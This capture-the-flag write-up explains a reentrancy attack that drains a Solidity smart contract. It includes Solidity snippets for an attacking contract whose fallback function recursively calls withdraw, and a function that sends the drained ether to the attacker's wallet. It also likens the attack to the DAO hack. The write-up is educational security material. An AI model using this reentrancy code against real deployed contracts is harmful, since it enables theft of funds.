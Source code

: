# Get Rich

This challenge gave us a smart contract and an api to interact with the
blockchain it was running on. Our goal is to drain the smart contract of funds.

Note: due to inefficiencies and issues with my code, I will not use my code, but I will instead explain the solution published by the creator of the challenge: https://pastebin.com/KXAuwRXS.

I used remix to edit the attacking smart contract: https://remix.ethereum.org/

Looking at the solidity contract given to us, the only line that stood out to me was line 62: msg.sender.call.value(amount)(). If it is returning ether to a payable smart contract, it will wait for the smart contract to finish executing the code in its fallback function before continuing. If an attacker smart contract recursively calls the withdraw() function, it will not subtract from the attacker’s balance until after refunding each recursive call. This means that an attacker can withdraw all the ether in the victim smart contract.

```
// Start the attack
function attack()  {
    performAttack = true;
    dctf.invest.value(1)(this); // Need to invest a bit to get started.
    dctf.withdraw(1);
}

// Fallback (Called when the contract is paid and another function is not
called)
function() payable {
    if (performAttack) {
        performAttack = false;
        dctf.withdraw(1); // Recursively called
    }
}
```

After successfully exploiting the contract, the flag can be obtained by
transferring the ether to an owned wallet and calling get_flag.

```
function getJackpot(){
    dctf.withdraw(dctf.balance); // Withdraw monies just in case
    bool res = owner.send(this.balance); // Send all the ether to you
    performAttack = true;
}
```

Due to a bug in my code, I did not actually withdraw any ether, but I did underflow my smart contract’s balance. I then transferred my balance (~1e77) to my wallet and withdrew 100 ether from the victim contract.

It turns out that this is the same exploit used during the DAO hack.

